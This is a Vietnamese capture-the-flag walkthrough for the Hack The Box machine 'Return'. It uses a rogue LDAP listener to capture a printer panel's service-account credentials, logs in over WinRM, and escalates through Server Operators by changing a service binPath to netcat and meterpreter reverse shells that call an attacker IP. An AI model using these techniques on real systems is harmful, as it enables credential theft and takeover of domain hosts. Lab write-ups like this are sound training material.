


# Return

## Synopsis

Return là một machine Windows easy có panel administrator print network lưu trữ thông tin xác thực LDAP. Những thông tin xác thực này có thể bị bắt bằng cách nhập server LDAP độc hại cho phép chiếm được foothold trên server thông qua dịch vụ WinRM. User được phát hiện là một phần của group đặc quyền bị khai thác thêm để giành quyền truy cập hệ thống.

### Skills Required

- Kiến thức cơ bản về Windows

- Kiến thức cơ bản về Active Directory

### Skills Learned

- Lạm dụng Network Printer

- Lạm dụng Server Operators Group

## Enumeration

### Nmap

Bắt đầu bằng việc scan port.

```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.233 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sV -sC 10.10.10.233
```


Output của Nmap cho thấy target là machine chạy Windows có các port 80 (Internet Information Services), 445 (SMB) và 5985 (Windows Remote Management).

### SMB

Liệt kê dịch vụ SMB bằng công cụ `enum4linux`.


Điều này cho thấy host là một phần của domain `RETURN`. SMB không cho phép session NULL hoặc guest, do đó có thể chuyển sự chú ý sang trang web.

### IIS


Điều này sẽ hiển thị printer admin panel, như thấy trên các thiết bị đa chức năng Canon, Xerox và Epson dành cho doanh nghiệp. Điều hướng đến `Settings` sẽ hiển thị username và tên domain.



## Foothold

Các thiết bị này lưu trữ thông tin xác thực LDAP và SMB để máy in có thể truy vấn danh sách user từ Active Directory và có thể lưu các file đã scan vào ổ đĩa của user. Các trang cấu hình này thường cho phép chỉ định domain controller hoặc máy file server. Thiết lập listener trên port 389 (LDAP) và chỉ định IP address tun0 trong trường `Server address`.

```
sudo nc -lvnp 389
```


Đã nhận được kết nối và thông tin đăng nhập của `svc-printer` được tiết lộ. Từ portscan, thấy port WinRM đang mở. Kết nối với dịch vụ bằng công cụ `evil-winrm`.

```
gem install evil-winrm
evil-winrm -i 10.10.10.233 -u svc-printer -p '1edFg43012!!'
```


## Privilege Escalation

Việc liệt kê các group memberships cho thấy `svc-printer` là một phần của group `Server Operators`.


Có thể đọc thêm về group này (https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators). Các member của group này có thể bắt đầu/dừng các service hệ thống. Sửa đổi đường dẫn binary service để có được một reverse shell.

```
upload /usr/share/windows-resources/binaries/nc.exe
sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.2 1234"
```

Thiết lập một listener trên port 1234 và đưa ra các command bên dưới để lấy reverse shell.

```
sc.exe stop vss
sc.exe start vss
```


Shell thu được ở trên không ổn định và có thể die sau vài giây. Một cách hiệu quả hơn là thu được shell meterpreter và sau đó nhanh chóng chuyển sang quy trình ổn định hơn.

Có thể sử dụng `msfvenom` để tạo file dữ liệu thực thi reverse shell meterpreter cho Windows remote host.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=1337 -f exe > shell-x86.exe
```


Sử dụng shell Evil-WinRM hiện tại, file thực thi có thể được tải lên remote host.

```
upload shell.exe
```


Tiếp theo, sử dụng Metasploit console để cấu hình listener cho session reverse shell trên target Windows.

```
msfconsole
```

Chọn mô-đun khai thác `multi/handler`, được sử dụng để lắng nghe các kết nối đến từ hệ thống bị xâm phạm.

```
use exploit/multi/handler
```


Đặt payload là `windows/meterpreter/reverse_tcp` cho phép thiết lập kết nối reverse TCP giữa máy của attacker và target.

```
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 1337
```



Khởi động listener bằng lệnh `run`.


Sử dụng shell hiện có, sửa đổi đường dẫn binary service để có được reverse shell.

```
sc.exe config vss binPath="C:\Users\svc-printer\Desktop\shell.exe"
```


Đã có listener Metasploit chạy trên port `1337`, vậy bây giờ chạy các lệnh bên dưới để lấy reverse shell.

```
sc.exe stop vss
sc.exe start vss
```


Sau khi có session meterpreter, sử dụng lệnh `ps` để liệt kê các tiến trình đang chạy trên remote box.


Chọn một process phù hợp đang chạy dưới dạng `NT AUTHORITY\SYSTEM` và di chuyển đến process đó. Trong trường hợp này, di chuyển đến process có PID 3172.

```
migrate <PID>
```


Bây giờ có thể tạo một shell và lấy root flag.

```
shell
```

